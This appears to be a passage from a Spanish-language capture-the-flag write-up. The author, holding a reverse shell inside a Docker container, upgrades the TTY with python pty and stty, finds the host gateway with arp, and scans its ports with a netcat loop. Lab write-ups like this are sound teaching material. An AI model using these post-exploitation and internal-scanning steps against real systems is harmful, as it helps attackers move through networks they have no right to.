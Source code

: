## En el docker

```
/app # ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
18: eth0@if19: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:09 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.9/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```
Sé que es un docker porque las ip 172.. suelen ser dockers, y la ip 10.10.11.164 sabemos que es nuestro objetivo real.

Ahora hay que hacer un tratamiento de la tty porque no podremos manejarnos perfectamente en esta consola. Se podría tirar sin tratarla peeero vamos hacerlo bien.

Aquí el tratamiento estandar da problemas, pero podemos hacerlo con python:
```
/app # script /dev/null -c bash
/bin/sh: script: not found
/app # which python
/usr/local/bin/python
/app # which bash
/app # which sh
/bin/sh
/app # python -c 'import pty;pty.spawn("/bin/sh")'
/app # ^Z      
zsh: suspended  nc -nlvp 443
```
Y ahora en mi ordenador:
```
>stty raw -echo;fg
    reset xterm
```
Nos vuelve a dar la consola del docker y modificamos algunas variables por último:
```
/app # export TERM=xterm
/app # export SHELL=bash
/app # stty rows 38 columns 184
```
Deduzco que la ip objetivo será la 172.17.0.1, suele ser, aun así puedo mirar que equipos hay conectados en la red con el comando arp:
```
/app # arp -n
? (172.17.0.1) at 02:42:e0:b6:cc:9c [ether]  on eth0
```
La opción -n es para que no resuelva los nombres, así tarda menos. También se puede hacer de otra manera, como por ejemplo el script que hace s4vitar llamado hostDiscovery, se puede ver en la máquina **Enterprise**.

Ahora podríamos averiguar los puertos que podemos ver desde el docker. No es lo mismo los puertos abiertos de la máquina objetivo que podemos ver desde nuestra ordenador que desde un docker suyo. Lo haré usando nc(netcat).
```
/app # for port in $(seq 1 10000);do nc 172.17.0.1 $port -zv;done
172.17.0.1 (172.17.0.1:22) open
172.17.0.1 (172.17.0.1:80) open
172.17.0.1 (172.17.0.1:3000) open
```
Tenemos un nuevo puerto abierto, el 3000.
